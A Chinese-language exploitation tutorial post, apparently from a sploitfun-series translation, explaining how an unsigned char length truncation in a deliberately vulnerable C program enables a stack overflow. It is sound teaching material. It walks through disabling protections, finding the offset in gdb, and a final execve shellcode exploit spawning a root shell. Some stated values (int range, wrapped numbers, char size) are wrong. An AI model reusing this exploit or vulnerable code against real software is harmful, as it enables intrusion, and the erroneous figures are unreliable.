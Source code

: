 ```yaml
---
layout: post
title: 整数溢出
excerpt: "sploitfun系列教程之1.2整数溢出"
categories: [sploitfun系列教程]
comments: true
---
```


存储大于最大支持值的值称为整数溢出。整数溢出本身不会导致任意代码执行，但整数溢出可能会导致堆栈溢出或堆溢出，这可能导致任意代码执行。在这篇文章中，我将仅谈论整数溢出导致栈溢出，整数溢出导致堆溢出将在后面的单独的帖子中讨论。

数据的种类和范围
```
 _______________________________________________________
|Data Type |  Size   | Unsigned Range | Signed Range    |
|-------------------------------------------------------|
|char      | 1       | 0 to 255       | -128 to 127     |
|-------------------------------------------------------|
|short     | 2       | 0 to 65535     | -32768 to 32767 |
|-------------------------------------------------------|
|int       | 4       | 0 to 4294967296| -2147483648 to  |
|          |         |                |  2147483647     |
|__________|_________|________________|_________________|
```
当我们试图存储一个大于最大支持值的值时，我们的值会被包装 。例如，当我们尝试将2147483648存储到带符号的int数据类型时，它将被包装并存储为-21471483648。这被称为整数溢出，这种溢出可能导致任意代码执行

一个demo
```
int main(void)
{
    int len;
    int data_len;
    int header_len;
    char *buf;

    header_len = 0x10;
    scanf("%uld", &data_len);

    len = data_len+header_len			//data_len负数, len很小的数
    buf = malloc(len);				//参数是size_t 该类型相当于 unsigned long int，申请了很小
    read(0, buf, data_len);			//第三个参数是size_t 该类型相当于 unsigned long int，属于无符号长整型,造成栈溢出
    return 0;
}
```

#### 下界溢出
当我们尝试将-2147483649存储到带符号的int数据类型时，它将被包装并存储为21471483647.这称为下界溢出

漏洞代码如下
```c
//vuln.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void store_passwd_indb(char* passwd) {
}

void validate_uname(char* uname) {
}

void validate_passwd(char* passwd) {
 char passwd_buf[11];
 unsigned char passwd_len = strlen(passwd); /* [1] */ //返回的类型是size_t ,unsigned int ,4个字节,unsigned char两个字节
 if(passwd_len >= 4 && passwd_len <= 8) { /* [2] */			// 这里要求长度大于4,小于8
  printf("Valid Password\n"); /* [3] */ 
  fflush(stdout);
  strcpy(passwd_buf,passwd); /* [4] */						//(11个字母,可以输入200多个)
 } else {
  printf("Invalid Password\n"); /* [5] */
  fflush(stdout);
 }
 store_passwd_indb(passwd_buf); /* [6] */
}

int main(int argc, char* argv[]) {
 if(argc!=3) {
  printf("Usage Error:   \n");
  fflush(stdout);
  exit(-1);
 }
 validate_uname(argv[1]);
 validate_passwd(argv[2]);
 return 0;
}

```
编译环境
```shell
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -g -fno-stack-protector -z execstack -o vuln vuln.c -m32
chmod 777 vuln
```

查看validate_passwd汇编代码
```bash
gdb-peda$ disassemble validate_passwd 
Dump of assembler code for function validate_passwd:
   0x08048507 <+0>:	push   ebp
   0x08048508 <+1>:	mov    ebp,esp
   0x0804850a <+3>:	sub    esp,0x28
   0x0804850d <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048510 <+9>:	mov    DWORD PTR [esp],eax
   0x08048513 <+12>:	call   0x80483d0 <strlen@plt>
   0x08048518 <+17>:	mov    BYTE PTR [ebp-0x9],al
   0x0804851b <+20>:	cmp    BYTE PTR [ebp-0x9],0x3
   0x0804851f <+24>:	jbe    0x8048554 <validate_passwd+77>
   0x08048521 <+26>:	cmp    BYTE PTR [ebp-0x9],0x8
   0x08048525 <+30>:	ja     0x8048554 <validate_passwd+77>
   0x08048527 <+32>:	mov    DWORD PTR [esp],0x8048674
   0x0804852e <+39>:	call   0x80483b0 <puts@plt>
   0x08048533 <+44>:	mov    eax,ds:0x804a040
   0x08048538 <+49>:	mov    DWORD PTR [esp],eax
   0x0804853b <+52>:	call   0x8048390 <fflush@plt>
   0x08048540 <+57>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048543 <+60>:	mov    DWORD PTR [esp+0x4],eax
   0x08048547 <+64>:	lea    eax,[ebp-0x14]
   0x0804854a <+67>:	mov    DWORD PTR [esp],eax
   0x0804854d <+70>:	call   0x80483a0 <strcpy@plt>
   0x08048552 <+75>:	jmp    0x804856d <validate_passwd+102>
   0x08048554 <+77>:	mov    DWORD PTR [esp],0x8048683
   0x0804855b <+84>:	call   0x80483b0 <puts@plt>
   0x08048560 <+89>:	mov    eax,ds:0x804a040
   0x08048565 <+94>:	mov    DWORD PTR [esp],eax
   0x08048568 <+97>:	call   0x8048390 <fflush@plt>
   0x0804856d <+102>:	lea    eax,[ebp-0x14]
   0x08048570 <+105>:	mov    DWORD PTR [esp],eax
   0x08048573 <+108>:	call   0x80484fd <store_passwd_indb>
   0x08048578 <+113>:	leave  
   0x08048579 <+114>:	ret    
End of assembler dump.
```
上述漏洞代码的[1]行显示了一个整数溢出错误。strlen（）的返回类型是size_t（unsigned int），它存储在unsigned char数据类型中。因此，任何大于unsigned char的最大支持值的值都会导致整数溢出。因此当密码长度为261时，261将被包裹并存储为“passwd_len”变量中的5！由于这个整数溢出，可以绕过行[2]执行的边界检查，从而导致基于堆栈的缓冲区溢出！而且在这篇文章中看到，基于堆栈的缓冲区溢出导致任意的代码执行。

#### 测试第一步：Return Address能否被覆盖
```bash
gdb vuln
gdb-peda$ r sploitfun `python -c 'print "A"*261'`
```
结果
```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
```

#### 测试第二步：offset 是多少
offset长度是`0x18`

> 0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4

其中
- 0xb是‘passwd_buf’大小
- 0x1是‘passwd_len’大小
- 0x4是栈对齐大小
- 0x4是edi
- 0x4是caller’s EBP

因此，用户输入的`“A” * 24 + “B” * 4 + “C” * 233`，以A覆盖passwd_buf，passwd_len，对齐空间，edi和调用者的ebp，以“BBBB”覆盖返回地址，以"C"覆盖剩余空间.

```shell
gdb vuln
gdb-peda$ r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
```
结果如下
```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
这样我们就可以通过控制return address来控制程序

#### 最终exp
```bash
gdb vuln
gdb-peda$ r sploitfun `python -c 'print "A"*24 + "\x24\xd5\xff\xff" +"A"*4+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+ "C"*204'`
```
结果
```
gdb-peda$ r sploitfun `python -c 'print "A"*24 + "\x24\xd5\xff\xff" +"A"*4+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+ "C"*204'`
Starting program: /root/sploitfun/vuln sploitfun `python -c 'print "A"*24 + "\x24\xd5\xff\xff" +"A"*4+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+ "C"*204'`
Valid Password
process 4612 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
sh-4.2# who
[New process 4674]
process 4674 is executing new program: /usr/bin/who
Missing separate debuginfos, use: debuginfo-install bash-4.2.46-33.el7.x86_64
root     pts/3        Nov  7 15:50 (61.172.240.228)
```
